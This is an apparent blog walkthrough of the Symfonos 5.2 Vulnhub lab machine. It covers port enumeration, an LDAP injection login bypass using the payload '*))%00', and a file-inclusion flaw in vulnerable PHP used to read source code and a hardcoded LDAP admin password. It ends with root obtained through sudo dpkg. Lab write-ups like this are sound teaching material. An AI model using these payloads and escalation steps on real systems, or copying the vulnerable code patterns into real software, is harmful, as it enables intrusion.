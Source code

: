 ```yaml
---
layout: post
title: Symfonos 5.2 Vulnhub Walkthrough
subtitle: 
tags: [oscp, vulnhub]
---
```


This is a walkthrough for Symfonos 5.2 Vulnhub machine. The machine can be found at [Symfonos 5.2 Vulnhub](https://www.vulnhub.com/entry/symfonos-52,415/). I really wanted to write a walkthrough on this box because I learnt a lot about LDAP Injections and insecure coding practices from it. So, let's dive right into it!

## Enumeration
First, using the `autorecon` tool, I looked at the nmap scan of the machine. The following ports were open:

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfhCNEk87fJIphggJ/K7+9vu2pm9OmRmuYZ4tIPDCr42LgzGp6EIWpz5FXo98F1iq1pNASEjcMqqpCxuhhOFSlf3pPA00Rka4/0pmlmtIl5jSE6cpexIXzINzLC6YXDt59JFuOi0PgsbBYbIWsRdNxPboBDELeilgNairkx3wakNr39Di1SmrpQyQ54EbpusuNZPZL9eBjgEScXrx+MCnA4gyQ+VwEbMXDBfC6q5zO+poZQ1wkAqg9+LFvd2RuwGB+06yFfVn84UpBh4Fxf+cpnKG0zJalRfI8ZhUgnvEnU7cIp8Yb94pUzXf1+m1Vsau8+0myI0aaljHt4RfSfI3T
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHUvkrh2jAIVELCTy59BYzC3B0S4/jKkYOmS6N7anjrxvHW59thSrs7+3pvVhM5X0Og+FV4zkrMMfvw5jwTygeA=
|   256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKxA6/wOoEAbxcDJX8zdCYFQzulYfpxK4n4e7bUSUeeC
80/tcp  open  http     syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     syn-ack ttl 63 OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl? syn-ack ttl 63
```

From the ports, LDAP sticks out particularly. Perhaps that may come in useful later. 

### Enumerating Port 80
Running a quick gobuster shows that the following `.php` pages are available.

Navigating to `/admin.php` reveals a login form. However, after trying common SQL Injection payloads, this form does not seem be vulnerable to SQLi.

My initial thought process was to enumerate LDAP for potential users and possibly brute-force the form with a known user. 
However, running the following command did not yield any results. Perhaps we are not allowed to access it without the right credentials. 

```bash
ldapsearch 
``` 

## Exploitation 
A while later, the idea dawned on me that this could be LDAP Injection. I had heard of the concept prior to doing this box, but did not know much about it. As such, I went to read up a bit on LDAP Injections. 

### A Short Primer on LDAP Injections
Lightweight Directory Access Protocol (LDAP) is a protocol that manages directory information. Directory information is stored in a tree-like hierarchical structure. Information is modelled as an entry which contains attributes, and entries are typically real world organizations, people and objects. 

LDAP Injections occur in a similar manner to SQL injections, when user input is used directly in a query without adequate sanitization. 

One of the common vectors of an LDAP Injection is an authentication form like in this box. The vulnerable code often takes a shape as follows:
```php
$filter = "(&(uid=$username)(userPassword=$password))";
$result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);
```

As one can see, `$username` and `$password` are taken directly from user input and inserted into the query, allowing for manipulation through the use of `*` or `%00` to access all records and terminate the query prematurely etc. 

### Back to Symfonos 5
After suspecting this form could be vulnerable to LDAP Injection, I sent the request to Burp Intruder and ran an attack on the username parameter with various common LDAP Injection payloads. 

As seen from the picture, a few of them returned with positive results, with one of the payloads being `*))%00`. 

In response to the query above, such a payload would pre-maturely terminate the query.
```php
$filter = "(&(uid = *))%00 #ignore the rest because it terminates at null-byte
```

As such, this results in a trivial authentication bypass and we are in to the portal! 

### LFI? gfi!
Navigating around the pages, we immediately see that the url of the `portraits.php` page looks vulnerable to LFI, with a url as follows.

```bash
http://192.168.204.141/home.php?url=http://127.0.0.1/portraits.php
```

Using the php filter, I was able to extract the source code for `home.php` in base64. Upon decoding, we can see the vulnerable portion of code to LFI was as follows

```php
if (!empty($_GET["url"]))
{
    $r = $_GET["url"];
    $result = file_get_contents($r);
}
```
Seems like it'll be vulnerable to both LFI and RFI! My first thought process was try a reverse shell but all it did was print my reverse shell payload on the screen. 

### Back to LDAP
Ahhh, LDAP strikes again. 

Using the same techniques to retrieve the source code for `home.php`, I retrieved `admin.php` and saw something interesting in the code for the login form: admin credentials for LDAP!

```php
$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

    if (!$bind)
    {
        return false;
    }

    $filter = "(&(uid=$username)(userPassword=$password))";
    $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);
```

As such, we can re-run `ldapsearch` to see if it gives us any new information. This time, I ran it through nmap.

```bash
nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",ldap.password=qMDdyZh3cT6eeAWD' 192.168.204.141
```

And we get Zeus' credentials!

We can then SSH into Zeus' box. 

## Privilege Escalation (nothing more almighty than the ruler of all gods but ROOT)
A quick check on Zeus' sudo privileges reveals the following.

Aha! A quick search in GTFOBins later, and we can achieve root via the following:
```bash
sudo -l dpkg
!/bin/sh
```

## Learning Points
1. LDAP Injections were my key takeaway from this box. Thanks to this box, I now know basic insecure coding practices that could potentially lead to LDAP Injections. 

2. `ldapsearch` does not always have to be used at the initial stages of our enumeration. Sometimes, we may need to dig around for adequate credentials first. However, LDAP often will reveal sensitive information about users!

3. LFI/RFI is not just about reading sensitive files on the host machine or trying to get a reverse shell! Sometimes, we should check the source code or `config.php` for any sensitive information that we may be able to access. 

Hope you enjoyed this little write-up! To more learning ahead :)